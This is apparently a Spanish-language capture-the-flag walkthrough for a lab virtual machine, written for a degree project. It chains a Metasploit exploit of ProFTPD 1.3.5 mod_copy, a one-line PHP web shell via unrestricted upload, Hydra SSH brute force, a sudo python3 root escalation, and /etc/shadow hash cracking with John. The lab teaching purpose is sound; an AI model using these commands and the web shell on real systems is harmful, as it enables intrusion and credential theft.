









# Guía paso a paso del *Capture The Flag* 🚩 

> **Dificultad:** Media  
> **Entorno:** Red local (VirtualBox)  
> **Flags:** 4  
> **Autor:** Jack  
> **Fecha:** Junio 2026

---

## 📋 Índice

1. [Introducción](#1.-Introducción)
2. [Reconocimiento inicial](#2-Reconocimiento-inicial)
3. [Flag 1 — Explotación de ProFTPD 1.3.5](#3.-Flag-1-—-Explotación-de-ProFTPD-1.3.5)
4. [Flag 2 — Web Shell vía File Upload](#4.-Flag-2-—-Web-Shell-vía-File-Upload)
5. [Flag 3 — SSH Brute Force + Escalada de Privilegios](#5.-Flag-3-—-SSH-Brute-Force-+-Escalada-de-Privilegios)
6. [Flag 4 — Hash Cracking](#6.-Flag-4-—-Hash-Cracking)

---

## 1. Introducción

Este desafío está ligado al Trabajo Final de Grado, el cual tiene como propósito realizar ciberataques en entornos virtualizados mediante la explotación de ciertas vulnerabilidades, simulando lo que puede ocurrir en escenarios reales con la finalidad de que los usuarios interesados en la rama ofensiva de la ciberseguridad aprendan cómo es el proceso de los diferentes ataques que pueden llegar a suceder si no hay una buena configuración del sistema.

Para ello se han configurado distintas vulnerabilidades basando en el *framework* MITRE ATT&CK® donde cada táctica de ataque sigue el ciclo clásico de un ejercicio de *red teaming*. Las técnicas utilizadas son: [Reconocimiento Inicial](https://attack.mitre.org/tactics/TA0043/), [Acceso Inicial](https://attack.mitre.org/tactics/TA0001/), [Ejecución](https://attack.mitre.org/tactics/TA0002/), [Persistencia](https://attack.mitre.org/tactics/TA0003/), [Escalado de Privilegios](https://attack.mitre.org/tactics/TA0004/) y [Acceso de Credenciales](https://attack.mitre.org/tactics/TA0006/).

La máquina víctima expone los servicios siguientes:


| Puerto | Servicio | Detalles |
| ------ | -------- | -------- |
| 22|SSH (OpenSSH)|     Acceso remoto - objetivo de la Flag3     |
|80|HTTP (Apache)|     Portal Web con pistas para la Flag 2    |
|8081 |FTP (ProFTPD 1.3.5)|   Servicio vulnerable - objetivo de la Flag 1   |

Las flags que vamos a necesitar se encuentran en los directorios siguientes:

| Flag   | Ruta                                    |
| ------ | --------------------------------------- |
| Flag 1 | /var/www/ftp/flag1/flag_1.txt           |
| Flag 2 | /var/www/html/admin/flag_2.txt          |
| Flag 3 | /root/flag_3.txt                        |
| Flag 4 | /root/flag_4.txt (dentro de flag_4.zip) |


---

## 2. Reconocimiento inicial

Lo primero que se hace en cualquier CTF es enumerar la máquina objetivo mediante alguna herramienta de escaneo como nmap, para descubrir qué dispositivos están activos en una red, mapear rangos completos y analizar los puertos y servicios abiertos.

Sabiendo que estamos en la misma red que la víctima, necesitamos saber que IP_VICTIMA tiene, por lo tanto, ejecutamos el siguiente comando para escanear dispositivos activos en nuestra red si sabemos nuestra IP:

```bash
nmap -sn IP/24
```


Sabiendo que nuestra IP es la que acaba en 15, deduciomos que la IP_VICTIMA es la acabada en 4 (10.0.2.4) por ser de Oracle VitualBox.
Ahora podemos escanear los servicios activos de esta máquina con el siguiente comando:

```bash
nmap -sC -sV -p- -T4 -O IP_VICTIMA
```

| Flag | Descripción |
|------|-------------|
| `-sC` | Ejecuta scripts por defecto de NSE (enumeración básica) |
| `-sV` | Detecta versiones de servicios |
| `-p-` | Escanea los 65535 puertos |
| `-T4` | Velocidad agresiva (más rápido, puede generar ruido) |
| `-O`  | Intenta detectar el sistema operativo |

### Resultados relevantes del escaneo



Como podemos ver hay varios servicios activos, entre ellos, dos páginas web, una en el puerto 80 o 8080 y la otra en la 8081, que nos pueden proporcionar una serie de pistas para lograr conseguir las flags.


> 💡 **Nota:** Encontrar una versión **específica** de un servicio (como `ProFTPD 1.3.5`) es una señal inmediata para buscar exploits conocidos. Las versiones antiguas o sin parchear son el punto de entrada más común en CTFs y entornos reales.
:::

---

## 3. Flag 1 — Explotación de ProFTPD 1.3.5

Para la primera Flag nos encontramos con el servicio FTP de ProFTPD el cual vamos a explotar y su servidor web alojado en el puerto 8081, con el título de ProFTPD Service Monitor donde encontraremos información necesaria para la explotación. Cuando consigamos tener acceso a la máquina, la flag la podremos encontrar en el directorio /var/www/ftp/flag1/flag_1.txt.

### ¿Qué es ProFTPD 1.3.5?

ProFTPD es un servidor FTP ampliamente usado en sistemas Linux. La versión **1.3.5** tiene una vulnerabilidad crítica: el módulo `mod_copy` permite copiar archivos arbitrarios en el sistema de ficheros **sin autenticación**, usando los comandos `SITE CPFR` y `SITE CPTO`.

- **CVE:** [CVE-2015-3306](https://nvd.nist.gov/vuln/detail/CVE-2015-3306)  
- **Tipo:** Remote Code Execution (RCE) sin autenticación  
- **Vector:** Cualquier cliente puede invocar `SITE CPFR/CPTO` para mover/copiar archivos del servidor a rutas accesibles por la web.

### Explotación con Metasploit

```bash
msfconsole
```

Una vez dentro de la consola de Metasploit buscamos el servicio con su versión:

```bash
search ProFTPD 1.3.5
```

Esto nos muestra el módulo `exploit/unix/ftp/proftpd_modcopy_exec` y para usarlo ejecutamos:

```bash
use 0
```

Este modulo tiene varios parámetros que se pueden asignar, pero solo necesitamos tener en cuenta los siguientes que son: RHOSTS, RPORT y SITEPATH.
Estos valores se asignan gracias a las pistas proporcionadas por la página web alojada en el puerto 8081, la cual se puede acceder mediante el enlace http://IP_VICTIMA:8081.

Si nos fijamos detalladamente en la web, vemos que hay una sección que nos dice el puerto y el sitepath que tiene asignado el servicio, por lo tanto, para configurar el payload correctamente debemos ejecutar lo siguiente:

```bash
set RHOSTS IP_VICTIMA
set RPORT 8081
set SITEPATH /var/www/ftp
```


| Parámetro | Valor | Descripción |
|-----------|-------|-------------|
| `RHOSTS`  | IP_VICTIMA | IP de la víctima |
| `RPORT`   | 8081 | Puerto FTP alternativo detectado con nmap |
| `SITEPATH`| /var/www/ftp | Ruta donde el servidor FTP tiene permisos de escritura y es accesible vía web |

Quedando asi las opciones disponibles:


> 💡 **¿Por qué `/var/www/ftp`?** El exploit necesita copiar un payload a una ruta que luego pueda ejecutarse vía HTTP. Si el servidor web sirve ficheros desde `/var/www/`, subir algo ahí y luego hacer una petición HTTP lo ejecutará en el servidor.
:::

Solo queda ejecutar el exploit:
```bash
run
```

El exploit obtiene una **shell reversa** en la máquina objetivo la cual nos permite desbloquear la primer flag del CTF.

```bash
sessions               # Miramos los shells disponibles
sessions -i x          # Sustituye x por el Id del output de sessions
cat /flag1/flag_1.txt  # Primera flag
```

```bash
FLAG_1{Explotacio_FTP_Completada}
```

---

## 4. Flag 2 — Web Shell vía File Upload

En la segunda Flag nos aprovecharemos del servidor web donde se pueden publicar archivos para subir un archivo malicioso que nos permita ejecutar comandos via web, ya que este no comprueba el tipo de archivo ni el contenido conocido como [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload). La flag la podremos encontrar en el directorio /var/www/html/admin/flag_2.txt. 

### Enumeración web con Gobuster

Entramos a la página web y vemos un portal con información. Lo más relevante que podemos sacar son los tipos de archivos y directorios que hay en el servidor:


Con el servidor web en el puerto 80, usamos **Gobuster** para hacer fuzzing de directorios y archivos ocultos. Seleccionamos archivos php por las pistas que nos dan en la página web:

```bash
gobuster dir -u http://IP_VICTIMA/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html
```

| Flag | Descripción |
|------|-------------|
| `dir` | Modo de enumeración de directorios |
| `-u`  | URL objetivo |
| `-w`  | Wordlist a usar |
| `-x`  | Extensiones a probar junto a cada entrada |


### Resultados interesantes


Observamos que hay un directorio interesante llamado uploads y un archivo upload.php.

### Subida de Web Shell

Accedemos a `http://IP_VICTIMA/upload.php` y vemos que podemos subir cualquier tipo archivo:



Por lo tanto, subimos un archivo PHP malicioso que nos permita ejecutar comandos. Creamos el fichero `shell.php` con el siguiente contenido:

```php
<?php system($_REQUEST['cmd']); ?>
```

> 💡 **¿Por qué funciona esto?** La función `system()` de PHP ejecuta comandos del sistema operativo. El parámetro `$_REQUEST['cmd']` recoge el valor del parámetro `cmd` de la URL (GET) o del cuerpo de la petición (POST). Si el servidor no valida el tipo de archivo subido, cualquiera puede subir código PHP arbitrario y ejecutarlo.
:::

Una vez subido, el archivo estará accesible en el directorio uploads que hemos descubierto anteriormente con el fuzzing:

```
http://IP_VICTIMA/uploads/shell.php
```

### Ejecución de comandos

Para comprobar que la shell funciona, probamos el siguiente comando en el navegador:

```
http://IP_VICTIMA/uploads/shell.php?cmd=id
```

Respuesta esperada: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Una vez vemos que nos devuelve la respuesta esperada, solo nos queda leer la segunda flag con el siguiente comando:

```
http://IP_VICTIMA/uploads/shell.php?cmd=cat%20../admin/flag_2.txt
```

> 💡 **`%20`** es el encoding URL del espacio (` `). El directorio `/admin/` devolvía 403 desde el navegador, pero el proceso PHP corre con permisos de `www-data` que sí puede leer ese archivo directamente del sistema de ficheros.
:::

```bash
FLAG_2{Explotacio_Upload_Webshell_Completada}
```


---

## 5. Flag 3 — SSH Brute Force + Escalada de Privilegios

En esta flag tendremos que encontrar un usuario y su contraseña para poder acceder al sistema y así, poder realizar una escalada de privilegios ya que los permisos de *root* no estan configurados correctamente debido a una mala gestión conocido como [Improper Privilege Management](https://cwe.mitre.org/data/definitions/269.html). La flag se encuentra en el directorio /root/flag_3.txt que solo se puede acceder con permisos de administrador.

### Enumeración de usuarios

Lo primero que haremos es aprovechar la web shell de la anterior flag para listar los usuarios del sistema que esta ubicado en el fichero /etc/passwd y cualquier usuario puede acceder. Para ello, usaremos el siguiente comando:

```
http://IP_VICTIMA/uploads/shell.php?cmd=cat%20/etc/passwd
```

Buscamos usuarios con shell interactiva (`/bin/bash` o `/bin/sh`):




Identificamos que hay diferentes usuarios con shell interactiva. Para este caso, que se trata de un ataque de fuerza bruta del servicio de ssh, usaremos el usuario **`ssh-session`**.

### Brute Force con Hydra

Con el usuario identificado, lanzamos un ataque de fuerza bruta contra el servicio SSH usando la clásica wordlist `rockyou.txt` con el comando:

```bash
hydra -l ssh-session -P /usr/share/wordlists/rockyou.txt ssh://IP_VICTIMA -t 4
```

| Flag | Descripción |
|------|-------------|
| `-l` | Usuario fijo (`ssh-session`) |
| `-P` | Wordlist de contraseñas |
| `-t 4` | Número de hilos paralelos (bajo para no bloquear el servicio) |

> 💡 **rockyou.txt** es una wordlist con ~14 millones de contraseñas reales filtradas de una brecha de datos de 2009. Es el estándar en CTFs porque muchos entornos usan contraseñas débiles o conocidas.
:::

Con Hydra vemos que la contraseña del usuario es:
```bash
1234567890
```

Nos conectamos mediante ssh e introducimos la contraseña cuando nos la pida:
```bash
ssh ssh-session@IP_VICTIMA
```

### Escalada de Privilegios (PrivEsc)

Una vez hemos podido iniciar sesión, comprobamos qué comandos puede ejecutar este usuario como `root` sin contraseña:

```bash
sudo -l
```

Salida esperada donde observamos que el usuario tiene permisos root sobre python3:



> 💡 **¿Por qué es peligroso esto?** Si un usuario puede ejecutar `python` como root sin contraseña, puede usar Python para invocar una shell interactiva directamente como root. Esto es una misconfiguration clásica de `sudoers`.
:::

Explotamos esto con el siguiente one-liner de [GTFOBins](https://gtfobins.org/gtfobins/python/) para invocar una terminal con permisos de administrador:

```bash
sudo python3 -c 'import os; os.execl("/bin/sh", "sh")'
```

Esto reemplaza el proceso Python por `/bin/sh` con los privilegios de `root`.

Ya somos root y podemos acceder al directorio `/root` para obtener la Flag 3:

```bash
cat /root/flag_3.txt
```

```bash
FLAG_3{Explotacio_SSH_PE_Completada}
```

---

## 6. Flag 4 — Hash Cracking

Para la última flag lo que haremos es sacar el hash de la contraseña del usuario flag4_user para después crackearla y usarla como contraseña para descomprimir un archivo zip cifrado con la flag que se encuentra en el directorio /root.

Aprovechamos el anterior apartado donde tenemos permisos de administrador y poder leer el archivo `/etc/shadow`, que contiene los **hashes de contraseñas** de todos los usuarios del sistema:

```bash
cat /etc/shadow
```

### ¿Qué es `/etc/shadow`?

`/etc/shadow` almacena las contraseñas de los usuarios en forma de hash (nunca en texto plano). El formato de cada línea es:

```
usuario:$tipo$sal$hash:último_cambio:min:max:warn:inactivo:expiración
```

Copiamos el hash del usuario `flag4_user` y lo guardamos en un fichero local:

```bash
# En nuestra máquina atacante
echo '$6$sal$hashaqui...' > hash.txt
```

### Cracking con John the Ripper

Para crackear el hash usaremos la herramienta john the ripper con el siguiente comando:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

> 💡 **¿Cómo funciona John?** John the Ripper toma cada palabra de la wordlist, la hashea con el mismo algoritmo y sal que el hash objetivo, y compara. Si coinciden, la contraseña ha sido encontrada. El proceso es computacionalmente intensivo pero efectivo contra contraseñas débiles.
:::

Cuando John encuentra la contraseña, volvemos a la sesión root y descomprimimos el archivo protegido por la contraseña:

```bash
cd /root
unzip flag_4.zip       # Introducir la contraseña encontrada por John
cat flag_4.txt
```

```bash
FLAG_4{Hash_Cracking_Completat}
```

---
